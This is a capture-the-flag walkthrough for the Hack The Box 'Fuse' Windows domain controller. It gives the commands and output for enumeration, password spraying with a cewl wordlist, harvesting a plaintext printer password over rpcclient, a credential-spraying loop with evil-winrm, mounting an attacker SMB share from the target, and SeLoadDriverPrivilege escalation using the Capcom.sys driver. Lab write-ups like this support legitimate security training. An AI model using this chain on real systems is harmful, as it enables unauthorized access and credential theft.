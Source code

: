 ```yaml
---
image: /assets/avatars/fuse.png
title: Fuse Writeup
author: Valerio Casalino
style: fill
tags: [Writeups, Hackthebox]
description: Writeup for Fuse (Hackthebox)
---
```


# Fuse

As always `nmap`:

```bash
sudo nmap -sC -sV -oA nmap/initial 10.10.10.193
```

```
PORT     STATE SERVICE      VERSION
53/tcp   open  domain?
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-10-24 13:22:53Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
...
Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h37m53s, deviation: 4h02m30s, median: 17m53s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Fuse
|   NetBIOS computer name: FUSE\x00
|   Domain name: fabricorp.local
|   Forest name: fabricorp.local
|   FQDN: Fuse.fabricorp.local
|_  System time: 2020-10-24T06:25:11-07:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-10-24T13:25:12
|_  start_date: 2020-10-23T23:24:56
```

Going to port 80, we are redirected to `http://fuse.fabricorp.local/papercut/logs/html/index.htm`, so we add this to hosts file:

```bash
echo -e "\n\n#HTB\n10.10.10.193 fuse.htb fuse.fabricorp.local fabricorp.local\n" | sudo tee -a /etc/hosts
```

We can see this web interface in front of us:

![image-20201024160036103]({{ site.url }}/assets/fuse/image-20201024160036103.png)

Watching the printer logs, we can see a bunch of user names, we can put the in a file that we call `users.txt`.

```
# users.txt
pmerton
tlavel
sthompson
bhult
administrator
```

Now we have to generate a word list for possible passwords, after I tried with classic `rockyou.txt` I tried with `cewl` on the main site:

```bash
cewl -d 5 -m 3  "http://fuse.fabricorp.local/papercut/logs/html/index.htm" --with-numbers > pass_wordlist.txt
```

 And trying password spray on all login names:

![image-20201024181235149]({{ site.url }}/assets/fuse/image-20201024181235149.png)

And eventually, credentials are found:

```
...
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: '.\tlavel:Fabricorp01'
...
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: '.\bhult:Fabricorp01'
...
```

When trying to login into `tlavel`, we get:

![image-20201024182201752]({{ site.url }}/assets/fuse/image-20201024182201752.png)

And after some research, I found [this forum question](https://samba.samba.narkive.com/I0oDpMEz/smbclient-says-nt-status-password-must-change-how-to-change-password) (if you can't read play a little with F12), which gave me the answer to my problem:

```bash
smbpasswd -r 10.10.10.193 -U tlavel
```

Note that the new password should be different from the old and with the same length, with the same number on capitalized letters and numbers. I choose `Lolzcorp01`. Hopping on RPC, let's enumerate a little more:

```
rpcclient -U FABRICORP\\tlavel 10.10.10.193

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]

rpcclient $> enumprinters
        flags:[0x800000]
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
        comment:[]
```

We found a password, now what you should do is try that password with your user list (updated with the user list of the `rpcclient` command) in `evil-winrm`.

```bash
_pass='$fab@s3Rv1ce$1' 
for user in $( cat ./users.txt ); do evil-winrm -i 10.10.10.193 -u "$user" -p "$_pass" && echo "$user:$_pass" >> creds.txt; done
```

But after a little research, I discovered this Metasploit module `auxiliary/scanner/winrm/winrm_login`, which was way faster:

![image-20201024185240383]({{ site.url }}/assets/fuse/image-20201024185240383.png)

Then, login with the correct user and password:

![image-20201024185523943]({{ site.url }}/assets/fuse/image-20201024185523943.png)

To get some files into the box, I created a temporary smb share on the attacker machine:

![image-20201024190419653]({{ site.url }}/assets/fuse/image-20201024190419653.png)

And connected to it from the box with the [powershell method](https://community.spiceworks.com/topic/2219152-powershell-mapping-network-drive):

```powershell
$password = ConvertTo-SecureString "lolz" -AsPlainText -Force
$credentials = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "lolz",$password
New-PSDrive -Name L -PSProvider FileSystem -Root "\\10.10.14.86\lolz" -Credential $credentials
```

![image-20201024192002890]({{ site.url }}/assets/fuse/image-20201024192002890.png)

And now let's load [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat) into our share and let's execute it from the box. From the output, we understand that our regular user has administrator's privileges with `SeLoadDriverPrivilege`. Now, to exploit this privilege, we can follow the instructions in [this article](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/). Basically, to run the exploit, we should

> At this point we can use the PoC tool EOPLOADDRIVER (https://github.com/TarlogicSecurity/EoPLoadDriver/), which will allow us to:
>
> * Enable the **SeLoadDriverPrivilege** privilege
>
> * Create the registry key under HKEY_CURRENT_USER (HKCU) and set driver configuration settings
>
> * Execute the **NTLoadDriver** function, specifying the registry key previously created

```bash
wget "https://github.com/TarlogicSecurity/EoPLoadDriver/raw/master/eoploaddriver.cpp"
wget "https://github.com/FuzzySecurity/Capcom-Rootkit/raw/master/Driver/Capcom.sys"
git clone "https://github.com/tandasat/ExploitCapcom"
```

Now you should hop in a Windows machine and compile the C++ code editing the command that you want to be executed, but while I was looking for more information, I stumbled in [this merged pull request](https://github.com/rapid7/metasploit-framework/pull/7363) that could make everything way easier, but unfortunately my Metasploit console wouldn't accept my credentials... So... Back to the boring method:

```powershell
# Powershell on Windows machine (mingw required)
g++ .\eoploaddriver.cpp -o eoploaddriver.exe
# Edit the launched string in ExploitCapcom and recompile
```

Copy the files in whatever folder, then:

![image-20201025015005268]({{ site.url }}/assets/fuse/image-20201025015005268.png)

![image-20201025015103961]({{ site.url }}/assets/fuse/image-20201025015103961.png)

...profit!
